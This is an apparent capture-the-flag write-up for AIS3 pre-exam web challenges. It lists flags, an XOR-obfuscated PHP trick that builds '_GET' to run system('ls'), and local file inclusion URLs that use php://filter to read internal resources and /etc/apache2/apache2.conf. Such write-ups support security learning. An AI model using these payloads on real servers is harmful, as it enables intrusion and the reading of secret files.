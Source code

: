 ```=javascript
            }(18, 190, 127, 170, 113)
        };
```

```
<!--Call r() in browser console  -->
AIS3{4r3_y0u_4_fr0n73nd_g33k?}
```

----
## 3v4l
```=php
<?php
$_ = "{`{{{`}{}`"^"_?<>/;_<_=" ;//_GET["G"]
$test = "$_" ;//_GET
$_GET["G"] = "system('ls');";
?>
```

----


## d1v1n6

### LFI
http://pre-exam-web.ais3.org:10103/?path=php://filter/read=convert.base64-encode/resource=http://localhost

### get flag file name

FLAG_14d65189669f05d206764c9de441474d.txt

http://pre-exam-web.ais3.org:10103/?path=php://filter/read=convert.base64-encode/resource=http://localhost/14d65189669f05d206764c9de441474d.txt

```
  AIS3{600d_j0b_bu7_7h15_15_n07_7h3_3nd}
 ```
 
## d1v1n6 Deeper
Hints:
```
                 ^`.                     o
 ^_              \  \                  o  o
 \ \             {   \                 o
 {  \           /     `~~~--__
 {   \___----~~'              `~~-_     ______          _____
  \                         /// a  `~._(_||___)________/___
  / /~~~~-, ,__.    ,      ///  __,,,,)      o  ______/    \
  \/      \/    `~~~;   ,---~~-_`~= \ \------o-'            \
                   /   /            / /
                  '._.'           _/_/
                                  ';|\
Your flag:
  AIS3{600d_j0b_bu7_7h15_15_n07_7h3_3nd}

Hints for d1v1n6 d33p3r:
- Find the other web server in the internal network.
- Scanning is forbidden and not necessary.
- Flag is stored as an environment variable.
```
Linux version 4.15.0-1032-gcp (buildd@lgw01-amd64-027) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #34-Ubuntu SMP Wed May 8 13:02:46 UTC 2019
http://pre-exam-web.ais3.org:10103/?path=/etc/apache2/apache2.conf